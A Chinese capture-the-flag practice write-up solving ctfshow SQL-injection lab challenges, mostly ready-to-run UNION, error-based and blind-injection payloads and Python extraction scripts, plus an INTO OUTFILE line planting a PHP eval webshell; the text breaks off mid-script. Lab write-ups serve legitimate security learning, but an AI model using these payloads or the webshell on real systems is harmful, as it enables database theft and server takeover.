

+++
title= "Ctfshow Sqli Labs"
slug= "Ctfshow Sqli Labs"
description= ""
date= "2025-12-16T00:16:23+08:00"
lastmod= "2025-12-16T00:16:23+08:00"
image= ""
license= ""
categories= ["复现"]
tags= [""]

+++

纯纯练手，感觉自己有点弱智了🤡

## web517

```bash
?id=1'union select 1,2,3-- -

?id=-1'union select 1,(select group_concat(schema_name)from information_schema.schemata),3-- -
# ctfshow,ctftraining,information_schema,mysql,performance_schema,security,test

# flag,FLAG_TABLE,news,users,ALL_PLUGINS,APPLICABLE_ROLES,CHARACTER_SETS
# id,flag,FLAG_COLUMN,id,title,content,time

?id=-1'union select 1,(select group_concat(column_name)from information_schema.columns),3-- -

 
?id=-1'union select 1,(select group_concat(flag)from ctfshow.flag),3-- -
```


## web518

```bash
?id=-1 union select 1,2,3

?id=-1 union select 1,(select group_concat(column_name)from information_schema.columns),3
# flagaa,FLAG_TABLE,news,users
# id,flagac,FLAG_COLUMN

?id=-1 union select 1,(select group_concat(flagac)from ctfshow.flagaa),3
```


## web519

```bash
?id=-1') union select 1,2,3-- -

?id=-1') union select 1,(select group_concat(column_name)from information_schema.columns),3-- -
# id,flagaca,FLAG_COLUMN,i

# flagaanec,FLAG_TABLE,news,users
?id=-1') union select 1,(select group_concat(flagaca)from ctfshow.flagaanec),3-- -
```


## web520

```bash
?id=-1") union select 1,2,3-- -

?id=-1") union select 1,(select group_concat(column_name)from information_schema.columns),3-- -
# id,flag23,FLAG_COLUMN,id,title

# flagsf,FLAG_TABLE,news,users,ALL_PLUGINS
?id=-1") union select 1,(select group_concat(flag23)from ctfshow.flagsf),3-- -
```


## web521

```bash
?id=1' and 0-- -
# 无回显

?id=1' and 1-- -
# 回显You are in...........
```

布尔盲注写出脚本如下

```python
import asyncio
import httpx
import time

url = "https://ea54ebb7-98ed-4df8-8160-64beb7ef9413.challenge.ctf.show/"

MAX_LENGTH = 50 
CONCURRENCY_LIMIT = 10 

async def check(client, i, mid):
    payload = f"?id=1' and if(ascii(substr((select flag33 from ctfshow.flagpuck),{i},1))>{mid},1,0)--+"
    try:
        r = await client.get(url + payload)
        return "You are in..........." in r.text
    except Exception as e:
        print(f"[ERROR] Connection failed: {e}")
        return False

async def crack_char_at_index(sem, client, index):
    async with sem:
        low, high = 32, 127
        while low < high:
            mid = (low + high) // 2
            if await check(client, index, mid):
                low = mid + 1
            else:
                high = mid

        char = chr(low)
        if low == 32:
            print(f"[?] 第 {index} 位可能是空格或提取失败 (ASCII 32)")
        else:
            print(f"[+] 第 {index} 位破解完成: {char}")
        return index, char

async def main():
    sem = asyncio.Semaphore(CONCURRENCY_LIMIT)

    async with httpx.AsyncClient(verify=False, http2=True, timeout=20.0) as client:
        tasks = []
        for i in range(1, MAX_LENGTH + 1):
            task = asyncio.create_task(crack_char_at_index(sem, client, i))
            tasks.append(task)
        
        print(f"[*] 开始并发爆破，URL: {url}")
        
        results = await asyncio.gather(*tasks)
        results.sort(key=lambda x: x[0])

        final_flag = "".join([char for _, char in results])
        print(f"\n[SUCCESS] 最终结果: {final_flag.strip()}")

if __name__ == "__main__":
    start = time.time()
    asyncio.run(main())
    print(f"[*] 总耗时: {time.time() - start:.2f} 秒")

    
# [SUCCESS] 最终结果: ctfshow{6a544d94-3bce-4da3-957b-8b29d4635e40}
# [*] 总耗时: 1.49 秒
```


## web522

```python
import asyncio
import httpx
import time

url = "https://a02facf1-ebb1-4a6f-a7eb-ffdc5f17aa1c.challenge.ctf.show/"

MAX_LENGTH = 50 
CONCURRENCY_LIMIT = 10 

async def check(client, i, mid):
    payload = f"?id=1\" and if(ascii(substr((select flag3a3 from ctfshow.flagpa),{i},1))>{mid},1,0)--+"
    try:
        r = await client.get(url + payload)
        return "You are in..........." in r.text
    except Exception as e:
        print(f"[ERROR] Connection failed: {e}")
        return False

async def crack_char_at_index(sem, client, index):
    async with sem:
        low, high = 32, 127
        while low < high:
            mid = (low + high) // 2
            if await check(client, index, mid):
                low = mid + 1
            else:
                high = mid

        char = chr(low)
        if low == 32:
            print(f"[?] 第 {index} 位可能是空格或提取失败 (ASCII 32)")
        else:
            print(f"[+] 第 {index} 位破解完成: {char}")
        return index, char

async def main():
    sem = asyncio.Semaphore(CONCURRENCY_LIMIT)

    async with httpx.AsyncClient(verify=False, http2=True, timeout=20.0) as client:
        tasks = []
        for i in range(1, MAX_LENGTH + 1):
            task = asyncio.create_task(crack_char_at_index(sem, client, i))
            tasks.append(task)
        
        print(f"[*] 开始并发爆破，URL: {url}")
        
        results = await asyncio.gather(*tasks)
        results.sort(key=lambda x: x[0])

        final_flag = "".join([char for _, char in results])
        print(f"\n[SUCCESS] 最终结果: {final_flag.strip()}")

if __name__ == "__main__":
    start = time.time()
    asyncio.run(main())
    print(f"[*] 总耗时: {time.time() - start:.2f} 秒")
```

## web523

```python
?id=1')) union select 1,2,'<?php eval($_POST[1]);phpinfo();?>' into outfile '/var/www/html/shell.php'-- -


?id=-1')) union select 1,2,(select flag43 from ctfshow.flagdk) into outfile '/var/www/html/1.txt'-- -
```



## web524

```python
import asyncio
import httpx
import time

url = "https://216d1c97-8e75-48a1-874f-6fa8f70ae186.challenge.ctf.show/"

MAX_LENGTH = 50 
CONCURRENCY_LIMIT = 10 

async def check(client, i, mid):
    payload = f"?id=-1' or if(ascii(substr((select flag423 from ctfshow.flagjugg),{i},1))>{mid},1,0)--+"
    try:
        r = await client.get(url + payload)
        return "You are in..........." in r.text
    except Exception as e:
        print(f"[ERROR] Connection failed: {e}")
        return False

async def crack_char_at_index(sem, client, index):
    async with sem:
        low, high = 32, 127
        while low < high:
            mid = (low + high) // 2
            if await check(client, index, mid):
                low = mid + 1
            else:
                high = mid

        char = chr(low)
        if low == 32:
            print(f"[?] 第 {index} 位可能是空格或提取失败 (ASCII 32)")
        else:
            print(f"[+] 第 {index} 位破解完成: {char}")
        return index, char

async def main():
    sem = asyncio.Semaphore(CONCURRENCY_LIMIT)

    async with httpx.AsyncClient(verify=False, http2=True, timeout=20.0) as client:
        tasks = []
        for i in range(1, MAX_LENGTH + 1):
            task = asyncio.create_task(crack_char_at_index(sem, client, i))
            tasks.append(task)
        
        print(f"[*] 开始并发爆破，URL: {url}")
        
        results = await asyncio.gather(*tasks)
        results.sort(key=lambda x: x[0])

        final_flag = "".join([char for _, char in results])
        print(f"\n[SUCCESS] 最终结果: {final_flag.strip()}")

if __name__ == "__main__":
    start = time.time()
    asyncio.run(main())
    print(f"[*] 总耗时: {time.time() - start:.2f} 秒")
```

## web525

这里控制一下线程，如果线程太大了（10）字符就不对了😕

```python
import asyncio
import httpx
import time

url = "https://bb6fd6cf-6cd9-4cf4-b6cb-e3c151bf47da.challenge.ctf.show/"

MAX_LENGTH = 50
CONCURRENCY_LIMIT = 5
SLEEP_TIME = 2

async def check(client, i, mid):
    payload = f"?id=1' and if(ascii(substr((select flag4a23 from ctfshow.flagug),{i},1))>{mid},sleep({SLEEP_TIME}),0)--+"
    try:
        start_time = time.time()
        await client.get(url + payload)
        end_time = time.time()
        return (end_time - start_time) > (SLEEP_TIME - 0.5)
    except httpx.TimeoutException:
        return True
    except Exception:
        return False

async def crack_char_at_index(sem, client, index):
    async with sem:
        low, high = 32, 127
        while low < high:
            mid = (low + high) // 2
            if await check(client, index, mid):
                low = mid + 1
            else:
                high = mid
        
        char = chr(low)
        print(f"{index}: {char}")
        return index, char

async def main():
    sem = asyncio.Semaphore(CONCURRENCY_LIMIT)
    async with httpx.AsyncClient(verify=False, http2=True, timeout=10.0) as client:
        tasks = []
        for i in range(1, MAX_LENGTH + 1):
            tasks.append(asyncio.create_task(crack_char_at_index(sem, client, i)))
        
        results = await asyncio.gather(*tasks)
        results.sort(key=lambda x: x[0])
        
        final_flag = "".join([char for _, char in results])
        print(f"\nResult: {final_flag.strip()}")

if __name__ == "__main__":
    asyncio.run(main())
```

## web526

```python
import asyncio
import httpx
import time

url = "https://242a7c9c-b9a4-4480-a7e2-eb0e5ea56583.challenge.ctf.show/"

MAX_LENGTH = 50
CONCURRENCY_LIMIT = 5
SLEEP_TIME = 2

async def check(client, i, mid):
    payload = f"?id=1\" and if(ascii(substr((select flag43s from ctfshow.flagugs),{i},1))>{mid},sleep({SLEEP_TIME}),0)--+"
    try:
        start_time = time.time()
        await client.get(url + payload)
        end_time = time.time()
        return (end_time - start_time) > (SLEEP_TIME - 0.5)
    except httpx.TimeoutException:
        return True
    except Exception:
        return False

async def crack_char_at_index(sem, client, index):
    async with sem:
        low, high = 32, 127
        while low < high:
            mid = (low + high) // 2
            if await check(client, index, mid):
                low = mid + 1
            else:
                high = mid
        
        char = chr(low)
        print(f"{index}: {char}")
        return index, char

async def main():
    sem = asyncio.Semaphore(CONCURRENCY_LIMIT)
    async with httpx.AsyncClient(verify=False, http2=True, timeout=10.0) as client:
        tasks = []
        for i in range(1, MAX_LENGTH + 1):
            tasks.append(asyncio.create_task(crack_char_at_index(sem, client, i)))
        
        results = await asyncio.gather(*tasks)
        results.sort(key=lambda x: x[0])
        
        final_flag = "".join([char for _, char in results])
        print(f"\nResult: {final_flag.strip()}")

if __name__ == "__main__":
    asyncio.run(main())
```

## web527

```python
passwd=admin&submit=Submit&uname=1' union select 1,2-- -

passwd=admin&submit=Submit&uname=1' union select 1,(select group_concat(table_name)from information_schema.tables)-- -
# flagugsd,FLAG_TABLE,news,users,ALL_PLUGINS
# id,flag43s,FLAG_COLUMN,id,title
passwd=admin&submit=Submit&uname=1' union select 1,(select flag43s from ctfshow.flagugsd)-- -
```

## web528

```python
passwd=admin&submit=Submit&uname=1") union select 1,2-- -

passwd=admin&submit=Submit&uname=1") union select 1,(select group_concat(table_name)from information_schema.tables)-- -
# flagugsds,FLAG_TABLE,news,users
# d,flag43as,FLAG_COLUMN,id,title,conten
passwd=admin&submit=Submit&uname=1") union select 1,(select flag43as from ctfshow.flagugsds)-- -
```

## web529

```python
passwd=admin&submit=Submit&uname=1') or '1'='1'-- -
```

布尔盲注

```python
import asyncio
import httpx
import time

url = "https://4b0e320d-0135-4f46-b69e-c35244848d17.challenge.ctf.show/"

MAX_LENGTH = 50 
CONCURRENCY_LIMIT = 10 

async def check(client, i, mid):
    payload = f"1') or if(ascii(substr((select flag4 from ctfshow.flag),{i},1))>{mid},1,0)-- -"
    
    try:
        r = await client.post(url, data={
            "uname": payload,
            "passwd": "admin",
            "submit": "Submit"
        })
        return "flag.jpg" in r.text
    except Exception as e:
        print(f"[ERROR] Connection failed: {e}")
        return False

async def crack_char_at_index(sem, client, index):
    async with sem:
        low, high = 32, 127
        while low < high:
            mid = (low + high) // 2
            if await check(client, index, mid):
                low = mid + 1
            else:
                high = mid

        char = chr(low)
        if low == 32:
            print(f"[?] 第 {index} 位可能是空格或提取失败 (ASCII 32)")
        else:
            print(f"[+] 第 {index} 位破解完成: {char}")
        return index, char

async def main():
    sem = asyncio.Semaphore(CONCURRENCY_LIMIT)

    async with httpx.AsyncClient(verify=False, http2=True, timeout=20.0) as client:
        tasks = []
        for i in range(1, MAX_LENGTH + 1):
            task = asyncio.create_task(crack_char_at_index(sem, client, i))
            tasks.append(task)
        
        print(f"[*] 开始并发爆破，URL: {url}")
        
        results = await asyncio.gather(*tasks)
        results.sort(key=lambda x: x[0])

        final_flag = "".join([char for _, char in results])
        print(f"\n[SUCCESS] 最终结果: {final_flag.strip()}")

if __name__ == "__main__":
    start = time.time()
    asyncio.run(main())
    print(f"[*] 总耗时: {time.time() - start:.2f} 秒")
```

## web530

```python
import asyncio
import httpx
import time

url = "https://ee201108-a562-4a7b-9466-8cd1c3a7cd22.challenge.ctf.show/"

MAX_LENGTH = 50 
CONCURRENCY_LIMIT = 10 

async def check(client, i, mid):
    payload = f"1\" or if(ascii(substr((select flag4s from ctfshow.flagb),{i},1))>{mid},1,0)-- -"
    
    try:
        r = await client.post(url, data={
            "uname": payload,
            "passwd": "admin",
            "submit": "Submit"
        })
        return "flag.jpg" in r.text
    except Exception as e:
        print(f"[ERROR] Connection failed: {e}")
        return False

async def crack_char_at_index(sem, client, index):
    async with sem:
        low, high = 32, 127
        while low < high:
            mid = (low + high) // 2
            if await check(client, index, mid):
                low = mid + 1
            else:
                high = mid

        char = chr(low)
        if low == 32:
            print(f"[?] 第 {index} 位可能是空格或提取失败 (ASCII 32)")
        else:
            print(f"[+] 第 {index} 位破解完成: {char}")
        return index, char

async def main():
    sem = asyncio.Semaphore(CONCURRENCY_LIMIT)

    async with httpx.AsyncClient(verify=False, http2=True, timeout=20.0) as client:
        tasks = []
        for i in range(1, MAX_LENGTH + 1):
            task = asyncio.create_task(crack_char_at_index(sem, client, i))
            tasks.append(task)
        
        print(f"[*] 开始并发爆破，URL: {url}")
        
        results = await asyncio.gather(*tasks)
        results.sort(key=lambda x: x[0])

        final_flag = "".join([char for _, char in results])
        print(f"\n[SUCCESS] 最终结果: {final_flag.strip()}")

if __name__ == "__main__":
    start = time.time()
    asyncio.run(main())
    print(f"[*] 总耗时: {time.time() - start:.2f} 秒")
```

## web531

```python
import asyncio
import httpx
import time

url = "https://c5594232-73b5-4f2d-af7f-04e28b6ae785.challenge.ctf.show/"

MAX_LENGTH = 50 
CONCURRENCY_LIMIT = 10 

async def check(client, i, mid):
    payload = f"1' or if(ascii(substr((select flag4sa from ctfshow.flagba),{i},1))>{mid},1,0)-- -"
    
    try:
        r = await client.post(url, data={
            "uname": payload,
            "passwd": "admin",
            "submit": "Submit"
        })
        return "flag.jpg" in r.text
    except Exception as e:
        print(f"[ERROR] Connection failed: {e}")
        return False

async def crack_char_at_index(sem, client, index):
    async with sem:
        low, high = 32, 127
        while low < high:
            mid = (low + high) // 2
            if await check(client, index, mid):
                low = mid + 1
            else:
                high = mid

        char = chr(low)
        if low == 32:
            print(f"[?] 第 {index} 位可能是空格或提取失败 (ASCII 32)")
        else:
            print(f"[+] 第 {index} 位破解完成: {char}")
        return index, char

async def main():
    sem = asyncio.Semaphore(CONCURRENCY_LIMIT)

    async with httpx.AsyncClient(verify=False, http2=True, timeout=20.0) as client:
        tasks = []
        for i in range(1, MAX_LENGTH + 1):
            task = asyncio.create_task(crack_char_at_index(sem, client, i))
            tasks.append(task)
        
        print(f"[*] 开始并发爆破，URL: {url}")
        
        results = await asyncio.gather(*tasks)
        results.sort(key=lambda x: x[0])

        final_flag = "".join([char for _, char in results])
        print(f"\n[SUCCESS] 最终结果: {final_flag.strip()}")

if __name__ == "__main__":
    start = time.time()
    asyncio.run(main())
    print(f"[*] 总耗时: {time.time() - start:.2f} 秒")
```

## web532

```python
import asyncio
import httpx
import time

url = "https://1c57eb39-f29d-4372-a010-b107830a4393.challenge.ctf.show/"

MAX_LENGTH = 50 
CONCURRENCY_LIMIT = 10 

async def check(client, i, mid):
    payload = f"1\") or if(ascii(substr((select flag4sa from ctfshow.flagbab),{i},1))>{mid},1,0)-- -"
    
    try:
        r = await client.post(url, data={
            "uname": payload,
            "passwd": "admin",
            "submit": "Submit"
        })
        return "flag.jpg" in r.text
    except Exception as e:
        print(f"[ERROR] Connection failed: {e}")
        return False

async def crack_char_at_index(sem, client, index):
    async with sem:
        low, high = 32, 127
        while low < high:
            mid = (low + high) // 2
            if await check(client, index, mid):
                low = mid + 1
            else:
                high = mid

        char = chr(low)
        if low == 32:
            print(f"[?] 第 {index} 位可能是空格或提取失败 (ASCII 32)")
        else:
            print(f"[+] 第 {index} 位破解完成: {char}")
        return index, char

async def main():
    sem = asyncio.Semaphore(CONCURRENCY_LIMIT)

    async with httpx.AsyncClient(verify=False, http2=True, timeout=20.0) as client:
        tasks = []
        for i in range(1, MAX_LENGTH + 1):
            task = asyncio.create_task(crack_char_at_index(sem, client, i))
            tasks.append(task)
        
        print(f"[*] 开始并发爆破，URL: {url}")
        
        results = await asyncio.gather(*tasks)
        results.sort(key=lambda x: x[0])

        final_flag = "".join([char for _, char in results])
        print(f"\n[SUCCESS] 最终结果: {final_flag.strip()}")

if __name__ == "__main__":
    start = time.time()
    asyncio.run(main())
    print(f"[*] 总耗时: {time.time() - start:.2f} 秒")
```

## web533

报错注入，用户名得存在才行

```bash
passwd=1' and (select updatexml(1,concat(0x7e,(database()),0x7e),1))-- -&submit=Submit&uname=admin

passwd=1' and (select updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables),0x7e),1))-- -&submit=Submit&uname=admin
# ~flag,FLAG_TABLE,news,users,ALL_'

#  '~id,flag4,FLAG_COLUMN,id,title,c'
passwd=1'and (select updatexml(1,concat(0x7e,left((select flag4 from ctfshow.flag),30),0x7e),1))-- -&submit=Submit&uname=admin
# '~ctfshow{f28bca06-3a46-45a6-872~'
passwd=1'and (select updatexml(1,concat(0x7e,right((select flag4 from ctfshow.flag),30),0x7e),1))-- -&submit=Submit&uname=admin
# '~6-3a46-45a6-872d-bda593af697b}~'
```

## web534

admin\admin 登录进去，UA 头报错注入

```bash
User-Agent: ' and updatexml(1,concat(0x7e,(version()),0x7e),1) and '

User-Agent: ' and updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),0x7e),1) and '
# flag
User-Agent: ' and updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns),0x7e),1) and '

# '~id,flag4,FLAG_COLUMN,id,title,c'

User-Agent: ' and updatexml(1,concat(0x7e,left((select flag4 from ctfshow.flag),30),0x7e),1) and '
# '~ctfshow{d196be92-9ba8-46d0-921~'

User-Agent: ' and updatexml(1,concat(0x7e,right((select flag4 from ctfshow.flag),30),0x7e),1) and '
# '~2-9ba8-46d0-9212-d04e7f5181af}
```

## web535

登录之后在 Referer 注入即可

```bash
Referer: ' and updatexml(1,concat(0x7e,(version()),0x7e),1) and '
```

## web536

登录之后在 cookie 里面的 uname 注入

```bash
Cookie: uname=' and updatexml(1,concat(0x7e,(version()),0x7e),1) and '
```

## web537

```bash
' and updatexml(1,concat(0x7e,(version()),0x7e),1) and '

Cookie: uname=JyBhbmQgdXBkYXRleG1sKDEsY29uY2F0KDB4N2UsKHZlcnNpb24oKSksMHg3ZSksMSkgYW5kICc=
```

## web538

```bash
" and updatexml(1,concat(0x7e,(version()),0x7e),1) and "

Cookie: uname=IiBhbmQgdXBkYXRleG1sKDEsY29uY2F0KDB4N2UsKHZlcnNpb24oKSksMHg3ZSksMSkgYW5kICI=
```

## web539

```bash
?id=-1' union select 1,2,'3

?id=-1' union select 1,(select flag4 from ctfshow.flag),'3
```

## web540

最猛的一道题，注意到其中有注册口，传入特殊字符会被转义，二次注入可以打时间盲注，修改密码时触发，并且不能加多线程

```bash
import httpx
import time
import warnings

warnings.filterwarnings("ignore")

url_base = "https://b72fea72-9203-4656-a306-604fb4b715ef.challenge.ctf.show"
url_reg = f"{url_base}/login_create.php"
url_login = f"{url_base}/login.php"
url_change = f"{url_base}/pass_change.php"

def solve():
    print("start...")
    flag = ""
    for i in range(1, 100):
        head = 32
        tail = 127
        while head < tail:
            mid = (head + tail) // 2
            payload = f"admin' and if(ascii(substr((select flag4 from ctfshow.flag),{i},1))>{mid},sleep(3),0)-- "
            
            try:
                with httpx.Client(verify=False, http2=True, timeout=15.0) as client:
                    data_reg = {
                        "username": payload,
                        "password": "1",
                        "re_password": "1",
                        'submit': 'Register'
                    }
                    client.post(url_reg, data=data_reg)

                    data_login = {
                        "login_user": payload,
                        "login_password": "1",
                        'mysubmit': 'Login'
                    }
                    client.post(url_login, data=data_login)

                    data_trigger = {
                        "current_password": "1",
                        "password": "1",
                        "re_password": "1",
                        'submit': 'Reset'
                    }
                    
                    start = time.time()
                    client.post(url_change, data=data_trigger)
                    end = time.time() - start

            except httpx.TimeoutException:
                end = 4.0
            except Exception:
                end = 0.0

            if end > 2.5:
                head = mid + 1
            else:
                tail = mid

        if head == 32:
            break
        
        flag += chr(head)
        print(f"\r{flag}", end="", flush=True)
    
    print(f"\n{flag}")

if __name__ == "__main__":
    solve()
```

## web541

过滤了 and 和 or

```python
import asyncio
import httpx
import time

url = "https://84b4d46e-ee1c-42ce-9a6d-c0097e751c9b.challenge.ctf.show/"

MAX_LENGTH = 50 
CONCURRENCY_LIMIT = 10 

async def check(client, i, mid):
    payload = f"-1' || if(ascii(substr((select flag4s from ctfshow.flags),{i},1))>{mid},1,0)-- -"
    
    try:
        r = await client.get(url, params={"id": payload})
        return "Your Login name" in r.text
    except Exception as e:
        print(f"[ERROR] Connection failed: {e}")
        return False

async def crack_char_at_index(sem, client, index):
    async with sem:
        low, high = 32, 127
        while low < high:
            mid = (low + high) // 2
            if await check(client, index, mid):
                low = mid + 1
            else:
                high = mid

        char = chr(low)
        if low == 32:
            print(f"[?] 第 {index} 位可能是空格或提取失败 (ASCII 32)")
        else:
            print(f"[+] 第 {index} 位破解完成: {char}")
        return index, char

async def main():
    sem = asyncio.Semaphore(CONCURRENCY_LIMIT)

    async with httpx.AsyncClient(verify=False, http2=True, timeout=20.0) as client:
        tasks = []
        for i in range(1, MAX_LENGTH + 1):
            task = asyncio.create_task(crack_char_at_index(sem, client, i))
            tasks.append(task)
        
        print(f"[*] 开始并发爆破，URL: {url}")
        
        results = await asyncio.gather(*tasks)
        results.sort(key=lambda x: x[0])

        final_flag = "".join([char for _, char in results])
        print(f"\n[SUCCESS] 最终结果: {final_flag.strip()}")

if __name__ == "__main__":
    start = time.time()
    asyncio.run(main())
    print(f"[*] 总耗时: {time.time() - start:.2f} 秒")
```

## web542

```python
import asyncio
import httpx
import time

url = "https://e2ad877b-11bb-40c5-ae26-59d292c4485d.challenge.ctf.show/"

MAX_LENGTH = 50 
CONCURRENCY_LIMIT = 10 

async def check(client, i, mid):
    payload = f"-1 || if(ascii(substr((select flag4s from ctfshow.flags),{i},1))>{mid},1,0)-- -"
    
    try:
        r = await client.get(url, params={"id": payload})
        return "Your Login name" in r.text
    except Exception as e:
        print(f"[ERROR] Connection failed: {e}")
        return False

async def crack_char_at_index(sem, client, index):
    async with sem:
        low, high = 32, 127
        while low < high:
            mid = (low + high) // 2
            if await check(client, index, mid):
                low = mid + 1
            else:
                high = mid

        char = chr(low)
        if low == 32:
            print(f"[?] 第 {index} 位可能是空格或提取失败 (ASCII 32)")
        else:
            print(f"[+] 第 {index} 位破解完成: {char}")
        return index, char

async def main():
    sem = asyncio.Semaphore(CONCURRENCY_LIMIT)

    async with httpx.AsyncClient(verify=False, http2=True, timeout=20.0) as client:
        tasks = []
        for i in range(1, MAX_LENGTH + 1):
            task = asyncio.create_task(crack_char_at_index(sem, client, i))
            tasks.append(task)
        
        print(f"[*] 开始并发爆破，URL: {url}")
        
        results = await asyncio.gather(*tasks)
        results.sort(key=lambda x: x[0])

        final_flag = "".join([char for _, char in results])
        print(f"\n[SUCCESS] 最终结果: {final_flag.strip()}")

if __name__ == "__main__":
    start = time.time()
    asyncio.run(main())
    print(f"[*] 总耗时: {time.time() - start:.2f} 秒")
```

## web543

```python
import asyncio
import httpx
import time

url = "https://29c6d271-54e5-44d6-bf61-795aae112df1.challenge.ctf.show/"

MAX_LENGTH = 50 
CONCURRENCY_LIMIT = 10 

async def check(client, i, mid):
    payload = f"'||(if(ascii(substr((select(flag4s)from(ctfshow.flags)),{i},1))>{mid},1,0))||'"
    
    try:
        r = await client.get(url, params={"id": payload})
        return "Your Login name" in r.text
    except Exception as e:
        print(f"[ERROR] Connection failed: {e}")
        return False

async def crack_char_at_index(sem, client, index):
    async with sem:
        low, high = 32, 127
        while low < high:
            mid = (low + high) // 2
            if await check(client, index, mid):
                low = mid + 1
            else:
                high = mid

        char = chr(low)
        if low == 32:
            print(f"[?] 第 {index} 位可能是空格或提取失败 (ASCII 32)")
        else:
            print(f"[+] 第 {index} 位破解完成: {char}")
        return index, char

async def main():
    sem = asyncio.Semaphore(CONCURRENCY_LIMIT)

    async with httpx.AsyncClient(verify=False, http2=True, timeout=20.0) as client:
        tasks = []
        for i in range(1, MAX_LENGTH + 1):
            task = asyncio.create_task(crack_char_at_index(sem, client, i))
            tasks.append(task)
        
        print(f"[*] 开始并发爆破，URL: {url}")
        
        results = await asyncio.gather(*tasks)
        results.sort(key=lambda x: x[0])

        final_flag = "".join([char for _, char in results])
        print(f"\n[SUCCESS] 最终结果: {final_flag.strip()}")

if __name__ == "__main__":
    start = time.time()
    asyncio.run(main())
    print(f"[*] 总耗时: {time.time() - start:.2f} 秒")
```

## web544

```python
import asyncio
import httpx
import time

url = "https://307647f6-d708-41ea-9853-df716bc911ee.challenge.ctf.show/"

MAX_LENGTH = 50 
CONCURRENCY_LIMIT = 10 

async def check(client, i, mid):
    payload = f"'||(if(ascii(substr((select(flag4s)from(ctfshow.flags)),{i},1))>{mid},1,0))||'"
    
    try:
        r = await client.get(url, params={"id": payload})
        return "Your Login name" in r.text
    except Exception as e:
        print(f"[ERROR] Connection failed: {e}")
        return False

async def crack_char_at_index(sem, client, index):
    async with sem:
        low, high = 32, 127
        while low < high:
            mid = (low + high) // 2
            if await check(client, index, mid):
                low = mid + 1
            else:
                high = mid

        char = chr(low)
        if low == 32:
            print(f"[?] 第 {index} 位可能是空格或提取失败 (ASCII 32)")
        else:
            print(f"[+] 第 {index} 位破解完成: {char}")
        return index, char

async def main():
    sem = asyncio.Semaphore(CONCURRENCY_LIMIT)

    async with httpx.AsyncClient(verify=False, http2=True, timeout=20.0) as client:
        tasks = []
        for i in range(1, MAX_LENGTH + 1):
            task = asyncio.create_task(crack_char_at_index(sem, client, i))
            tasks.append(task)
        
        print(f"[*] 开始并发爆破，URL: {url}")
        
        results = await asyncio.gather(*tasks)
        results.sort(key=lambda x: x[0])

        final_flag = "".join([char for _, char in results])
        print(f"\n[SUCCESS] 最终结果: {final_flag.strip()}")

if __name__ == "__main__":
    start = time.time()
    asyncio.run(main())
    print(f"[*] 总耗时: {time.time() - start:.2f} 秒")
```

## web545

过滤了 union 和 select

```python
import asyncio
import httpx
import time

url = "https://ec948d02-6aeb-48ad-8be8-0d993ea95b9d.challenge.ctf.show/"

MAX_LENGTH = 50 
CONCURRENCY_LIMIT = 10 

async def check(client, i, mid):
    payload = f"'||(if(ascii(substr((seLect(flag4s)from(ctfshow.flags)),{i},1))>{mid},1,0))||'"
    
    try:
        r = await client.get(url, params={"id": payload})
        return "Your Login name" in r.text
    except Exception as e:
        print(f"[ERROR] Connection failed: {e}")
        return False

async def crack_char_at_index(sem, client, index):
    async with sem:
        low, high = 32, 127
        while low < high:
            mid = (low + high) // 2
            if await check(client, index, mid):
                low = mid + 1
            else:
                high = mid

        char = chr(low)
        if low == 32:
            print(f"[?] 第 {index} 位可能是空格或提取失败 (ASCII 32)")
        else:
            print(f"[+] 第 {index} 位破解完成: {char}")
        return index, char

async def main():
    sem = asyncio.Semaphore(CONCURRENCY_LIMIT)

    async with httpx.AsyncClient(verify=False, http2=True, timeout=20.0) as client:
        tasks = []
        for i in range(1, MAX_LENGTH + 1):
            task = asyncio.create_task(crack_char_at_index(sem, client, i))
            tasks.append(task)
        
        print(f"[*] 开始并发爆破，URL: {url}")
        
        results = await asyncio.gather(*tasks)
        results.sort(key=lambda x: x[0])

        final_flag = "".join([char for _, char in results])
        print(f"\n[SUCCESS] 最终结果: {final_flag.strip()}")

if __name__ == "__main__":
    start = time.time()
    asyncio.run(main())
    print(f"[*] 总耗时: {time.time() - start:.2f} 秒")
```

## web546

```python
import asyncio
import httpx
import time

url = "https://f13d4304-69e7-43f5-9a5f-b1bdec9c1094.challenge.ctf.show/"

MAX_LENGTH = 50 
CONCURRENCY_LIMIT = 10 

async def check(client, i, mid):
    payload = f"\"||(if(ascii(substr((seLect(flag4s)from(ctfshow.flags)),{i},1))>{mid},1,0))||\""
    
    try:
        r = await client.get(url, params={"id": payload})
        return "Your Login name" in r.text
    except Exception as e:
        print(f"[ERROR] Connection failed: {e}")
        return False

async def crack_char_at_index(sem, client, index):
    async with sem:
        low, high = 32, 127
        while low < high:
            mid = (low + high) // 2
            if await check(client, index, mid):
                low = mid + 1
            else:
                high = mid

        char = chr(low)
        if low == 32:
            print(f"[?] 第 {index} 位可能是空格或提取失败 (ASCII 32)")
        else:
            print(f"[+] 第 {index} 位破解完成: {char}")
        return index, char

async def main():
    sem = asyncio.Semaphore(CONCURRENCY_LIMIT)

    async with httpx.AsyncClient(verify=False, http2=True, timeout=20.0) as client:
        tasks = []
        for i in range(1, MAX_LENGTH + 1):
